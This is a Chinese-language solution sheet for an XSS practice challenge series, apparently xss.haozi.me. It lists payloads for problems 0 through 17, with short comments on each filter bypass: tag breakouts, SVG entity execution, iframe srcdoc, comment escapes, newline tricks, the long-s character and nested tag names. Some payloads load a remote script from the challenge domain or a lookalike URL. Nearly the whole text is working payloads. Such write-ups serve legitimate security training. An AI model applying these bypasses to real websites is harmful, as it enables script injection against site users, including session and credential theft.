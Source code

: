 # xss

## 第 0 题

```javascript
<script>alert(1)<script>
```

## 第 1 题

```javascript
</textarea><script>alert(1)</script>
```

## 第 2 题

```javascript
// 也是提前结束掉
"><script>alert(1)</script>
```

## 第 3 题

```javascript
// 只过滤掉()没用
<script>alert`1`</script>

// 也可以不闭合
<script>alert`1`</script
```

## 第 4 题

```javascript
// svg 中是可以执行实体字符的
<svg><script>alert&#40;1&#41;</script

// parent 是调用父节点的 alert
<iframe srcdoc="<script>parent.alert&#40;1&#41;</script> "
<iframe srcdoc="<script>parent.alert&#40;1&#41;</script> "></iframe>
```

## 第 5 题

```javascript
// 逃离注释，两种注释都可以
<!-- --!>
<!-- -->
fdsfsd --!><script>alert(1)</script>
```

## 第 6 题

```javascript
// input 的image属性，src等于空会触发onerror，为了逃避正则使用了换行符
type=image src onerror
=alert(1)
```

## 第 7 题

```javascript
<svg onload=alert(1) /
```

## 第 8 题

```javascript
// 注意style后的空格，或者是/、换行都可以
</style ><script>alert(1)</script>
```

## 第 9 题

```javascript
https://www.baidu.com"></script><script>alert(1)//
```

## 第 10 题

```javascript
// 一个完整的url地址scheme:[//[user:password@]host[:port]][/]path[?query][#fragment]
// url中做转义也是会被请求的
https://www.baidu.com.jd.me/j.js
https://www.segmentfault.com@xss.haozi.me/j.js
```

## 第 11 题

```javascript
// 直接写alert肯定是废掉了，但url是不区分大小写的，注意最后有个空格
<script src="https://xss.haozi.me/j.js"></script> 
```

## 第 12 题

```javascript
<scscriptript src="https://xss.haozi.me/j.js"></scscriptript>
```

## 第 13 题

```javascript
// js里面可以使用html的注释，注意第一行是空的

alert(1)
-->
```

## 第 14 题

```javascript
// ſ 是 s的另一种写法
<ſcript src="https://xss.haozi.me/j.js"></ſcript>
```

## 第 15 题

```javascript
// ; 也可以换成是逗号或换行符
');alert(1)//
```

## 第 16 题

```javascript
alert(1)

// 建议写法
try{
    window.data = JSON.parse('\bfdfd\b');
} catch(e) {
    // 数据出错兜底
    window.data = {};
}
```

## 第 17 题

```javascript
// 无解
```


csrf 手机验证码解决的最彻底